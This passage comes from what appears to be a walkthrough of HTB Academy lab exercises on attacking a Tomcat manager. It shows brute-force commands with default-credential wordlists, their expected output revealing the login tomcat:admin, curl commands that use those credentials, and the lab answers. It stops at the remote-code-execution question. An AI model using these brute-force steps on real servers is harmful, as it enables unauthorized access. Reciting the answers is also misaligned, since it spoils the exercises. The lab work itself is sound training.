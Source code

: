 ```bash
# HTB Answer: tomcat
```

#### Step 3: Alternative Python Script Method
```bash
# Use custom Python brute force script
python3 mgr_brute.py \
  -U http://web01.inlanefreight.local:8180/ \
  -P /manager/html \
  -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt \
  -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

# Expected output:
[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
```

### Lab 2: Password Identification
**Question:** "What is the password?"

**Solution Analysis:**

#### Authentication Result Extraction
```bash
# From previous brute force results:
# [+] 10.129.201.58:8180 - Login Successful: tomcat:admin

# Password verification via manual authentication
curl -u "tomcat:admin" http://web01.inlanefreight.local:8180/manager/html
# Expected: HTTP 200 OK with manager interface content

# HTB Answer: admin
```

#### Credential Validation
```bash
# Verify manager access and role privileges
curl -u "tomcat:admin" "http://web01.inlanefreight.local:8180/manager/text/list"
# Expected: List of deployed applications if authenticated successfully

# Browser verification (optional)
# Navigate to: http://web01.inlanefreight.local:8180/manager/html
# Enter credentials: tomcat / admin
# Should display Tomcat Web Application Manager interface
```

**🚨 Important Lab Note:** The HTB Academy walkthrough shows **tomcat:root** as the working credentials in the actual lab environment, while the brute force attack discovers **tomcat:admin**. Both credential sets should be tested depending on the specific lab instance.

### Lab 3: Remote Code Execution & Flag Retrieval
**Question:** "Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat_flag.txt"
